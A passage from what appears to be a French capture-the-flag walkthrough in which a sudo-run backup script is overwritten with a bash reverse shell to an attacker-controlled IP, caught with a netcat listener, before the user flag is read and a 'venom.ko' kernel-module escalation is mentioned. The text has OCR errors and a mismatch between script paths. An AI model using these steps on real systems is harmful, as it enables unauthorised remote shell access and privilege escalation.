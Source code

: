 **Contenu du script** :

```bash
#!/bin/bash
cp /var/www/html/notes/* /backup/
tar -czf /backup/notes.tar.gz /backup/*
```

### 💡 Exploitation

Nous modifions le script pour inclure une commande qui nous donne un shell root.

**Modification** :

Tape directement cette commande dans: cd /usr/share/backup

```bash
echo "/bin/sh -i >& /dev/tcp/>ton_ip_host>/4466 0>&1" > backup.sh
```

**Exécution** :

```bash
sudo /usr/bin/backup.sh
```

**Sur notre machine** :

```bash
nc -lvnp 4466
```

**Résultat** :

Nous obtenons un shell avec les privilèges Athena.

## 🏆 Récupération des Flags
 
### 📄 Flag Utilisateur
 
```bash
cat /home/athena/user.txt
```

**Contenu** :
```
857c4a4fbac638************ (envoie un message pour la suite)
```

---

## 🚀 Élévation de Privilèges pour être root

Avec sudo -l, une fois dans Athena, nous remarquons un fichier suspect... nommé venom.ko
N'hésitez pas à aller voir le descriptif du fichier sur le web, vous comprendrez mieux la suite des manipulations.

Pour l'élévation de privilège voici ce que vous devez écrire dans votre terminal, vŕifié votre id et voilà.
